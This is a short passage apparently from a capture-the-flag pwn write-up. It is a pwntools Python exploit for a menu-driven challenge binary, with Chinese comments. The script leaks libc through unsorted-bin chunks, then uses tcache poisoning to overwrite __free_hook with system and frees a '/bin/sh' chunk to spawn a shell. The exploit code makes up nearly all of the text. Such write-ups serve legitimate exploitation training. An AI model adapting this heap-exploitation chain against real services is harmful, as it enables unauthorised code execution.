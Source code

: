 ```python
debug = lambda : gdb.attach(p)
shell = lambda : p.interactive()



# ----------------------------------------------------------

def touch(index, content):
    sla(b'>>>>', b'touch ' + str(index).encode())
    sl( content)

def ln(index1, index2):
    sla(b'>>>>', b'ln ' + str(index1).encode() +b' ' + str(index2).encode())

def rm(index):
    sla(b'>>>>', b'rm ' + str(index).encode())

def cat(index):
    sla(b'>>>>', b'cat ' + str(index).encode())

def ged(index, content):
    sla(b'>>>>', b'gedit ' + str(index).encode())
    sl( content)

# 用 unsortedbins 泄露 libc 版本
for i in range(9):
    touch(i, b'')
ln(6, 10)
ln(7, 9)
for i in range(7):
    rm(i)
rm(9)
cat(7)
malloc_hook = u64(rx(6).ljust(8, b'\x00')) - 96 -0x10
print('>>>' + hex(malloc_hook))
libc=LibcSearcher("__malloc_hook",malloc_hook)
libc_base = malloc_hook - libc.dump('__malloc_hook')

# tcache poisoning 修改 free hook
ged(10, p64(libc.dump('__free_hook') - 0x10+libc_base))
touch(11,b'')
touch(12, b'/bin/sh\x00' + p64(0) + p64(libc.dump('system')+libc_base))
rm(12)

p.interactive()

```



### three edit
